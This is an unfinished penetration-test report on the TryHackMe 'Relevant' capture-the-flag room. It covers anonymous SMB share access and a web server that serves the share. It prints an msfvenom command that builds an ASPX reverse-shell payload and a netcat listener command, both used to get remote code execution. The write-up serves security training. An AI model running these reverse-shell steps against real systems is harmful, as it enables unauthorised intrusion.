




Author: Philip Kaiser  
Date: 11.01.2021

# Introduction 
This short report details the findings of the TryHackMe (www.tryhackme.com) "Relevant" blackbox challenge.
The challenge description is as follows:

```text
You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    User.txt
    Root.txt

Additionally, the client has provided the following scope allowances:

    Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    Locate and note all vulnerabilities found
    Submit the flags discovered to the dashboard
    Only the IP address assigned to your machine is in scope
    Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.
```

# Executive Summary

The client requested that an engineer conducts an security assessment of the provided virtual environment.
The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  
The client has asked to secure two flags (no location provided) as proof of exploitation:
- User.txt
- Root.txt

############# **WIP** #############
The engineer has been able to compromise and completely take over the target machine. 
############# **WIP** #############

| # | Severity | Finding | Description | Recommendation |
|---|---|---|---|---|---|
|#1|Critical|Remote Code Execution|---|---|---|

############# **WIP** #############
Summary
############# **WIP** #############

# Tools used

# Technical Summary

# Findings

## #1 Remote Code Execution (RCE)
**Severity: Critical**

The misconfigurations *#1.1* and *#1.2* allow an adversary to upload and execute arbitrary code on the target as the **WIP** IIS **WIP** user.
This can be used to access or delete the webserver's content or shut the service down.
This finding also creates an attack vector to escalate privileges to gain SYSTEM access on the machine (see Findings #2).  


### #1.1 SMB Share Anonymous Login

The target offers an SMB ([Server Message Block](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831795(v=ws.11))) service allowing shared access to uploaded files. 
This service exposes a share "nt4wrksv" that allows guest logins, allowing anyone with access to the machine to access the SMB share, and up- and download data to and from it.
The engineer was able to find this share by scanning the target machine with the port scanning tool Nmap 7.91 (see image).
While this in itself does not necessarily pose a security threat, in combination with finding *#1.2* it becomes exploitable, enabling RCE.



To access the machine, the tool smbclient 4.12.5-Debian was used. As figure 2 depicts, access to the SMB share and download of a present file was able without providing a valid username and password.




### #1.2 Web Server Accesses SMB Share

Apart from one web server running on port 80, another web server running on port 49663 was found. 
This web server was configured to include the "nt4wrksv" SMB share, making the files on the SMB share accessible via the web server (depicted in Figure 3).  
In combination with finding *#1.1*, this allows to upload code that is being executed by the web server when making a web request.
The engineer uploaded a crafted payload that creates a reverse shell to the engineer's local machine using the tool *msfvenom 4.11.4*.  
To make the web server interpret the uploaded payload as code, we create the payload in the *aspx* format.
The bash command is as follows:  
`msfvenom -p windows/x64/shell/reverse_tcp -f aspx -o reverse.aspx LHOST=<IP> LPORT=<PORT>` 

Then, netcat was used to listen to the incoming reverse shell connection.  
`nc -lvp <PORT>`  
Finally, the file needs to be uploaded to the target using smbclient and accessed via a web request (depicted in Figure 4).






